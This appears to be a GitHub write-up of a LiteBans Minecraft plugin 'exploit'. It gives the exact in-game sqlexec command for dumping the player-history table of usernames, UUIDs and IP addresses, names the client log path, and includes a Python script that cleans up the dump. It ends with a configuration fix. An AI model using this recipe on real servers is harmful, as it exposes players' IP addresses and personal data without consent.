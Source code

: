 # LiteBans IP Database Dump Exploit

**Overview**

LiteBans is a popular and paid banning plugin for server moderators and administrators.

MySQL is one of the most used database management systems, used to store data in tables. MySQL supports SQL queries, which are commands or statements that access or modify data in a database.

Examples of SQL queries:
- `SELECT * FROM my_table;` returns everything that is stored in the table my_table.
- `SELECT email, password FROM my_table;` returns emails and passwords that is stored in the table my_table.

**Analysis**

When installing LiteBans on your server, the plugin creates a local MySQL server for storing player data and punishments.

A feature in the plugin makes you able to execute SQL queries through an ingame command. You can exploit this feature, to dump the server's player data database. Of course, this command requires administrator permissions to use.

The plugin creates seven tables in the database:
- litebans_bans
- litebans_history
- litebans_kicks
- litebans_mutes
- litebans_servers
- litebans_sync
- litebans_warnings

The table `litebans_history` contains all player data (last seen date, username, UUID and IP-address), which is the table you want to dump.

**Exploitation**

Simply execute the command `/litebans sqlexec SELECT * FROM litebans_history;`. The command will execute the SQL query and take everything that is stored in the SQL table `litebans_history` and display it in the ingame chat.

To get the database content, go to the latest client log file located at `%APPDATA%\.minecraft\logs\latest.log` and copy the dumped database table from start to bottom.

You can use this simple Python tool to format the database:
```python
def main():
    lines = [x.strip() for x in open(input("Database path > "), encoding="utf-8", errors="ignore").readlines() if x.strip()]
    with open("out.txt", "w") as file:
        for line in lines:
            file.write(line.split("[CHAT] ")[1] + "\n")

if __name__ == "__main__":
    main()
```

**Prevention**

In the update LiteBans 2.3.10 - 2.3.15, a security patch was added. The configuration `security.sqlexec` was now set to true by default, which means only the console can use the sqlexec feature.

To prevent your server from getting its database dumped, set the security feature `security.sqlexec` to true in the configuration file of LiteBans located at `./plugins/LiteBans/config.yml`.

This configuration change will block players from using the command `/litebans sqlexec`.

```yaml
security:
  # If enabled, only the console can see IP addresses in /dupeip output.
  # This does not prevent players from using /dupeip. It only prevents them from seeing IP addresses.
  dupeip: true
  # If enabled, only the console can use /iphistory.
  iphistory: true
  # If enabled, only the console can use "/litebans sqlexec".
  sqlexec: true
```